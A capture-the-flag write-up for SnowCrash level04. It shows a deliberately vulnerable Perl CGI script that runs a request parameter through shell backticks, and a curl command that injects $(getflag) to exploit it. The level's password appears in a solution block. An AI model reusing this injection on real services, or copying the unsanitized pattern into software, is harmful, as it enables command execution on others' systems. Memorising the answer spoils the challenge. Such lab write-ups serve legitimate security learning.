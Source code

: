 <h1>LEVEL04</h1>


<h4>GETTING STARTED</h4>

When `ls -la` we notice a .pl file. A `.pl` file typically refers to a script written in Perl, a high-level, general-purpose, interpreted, dynamic programming language. P

<h4>INJECTIONS</h4>

```
level04@SnowCrash:~$ strings ./level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
x(param("x"));
```


I dont have write permission so i cant change the file. It has an address and a port so its a script that is designed to execute as part of a web service, likely meant to interact with HTTP requests. For example : 

```
level04@SnowCrash:~$ curl http://localhost:4747/level04.pl?x=test
test
```

`$(command)`: This syntax is used for command substitution in shell, which executes the command and substitutes its output. Since the Perl script uses backticks to execute the contents of the x parameter, including $(getflag) within the parameter might lead the server to execute the getflag command. 

`level04@SnowCrash:~$ curl http://localhost:4747/level04.pl?x=$(getflag)` 

Make sure to include single quotes around otherwise the variable will expand before the curl gets executed resulting in running the script as the user level04 instead of flag04.



<details><summary> SOLUTION </summary>
  
* `su level05`

<p align="center">
👑 ne2searoevaevoem4ov4ar8ap 👑
</p>
                                           
</details>


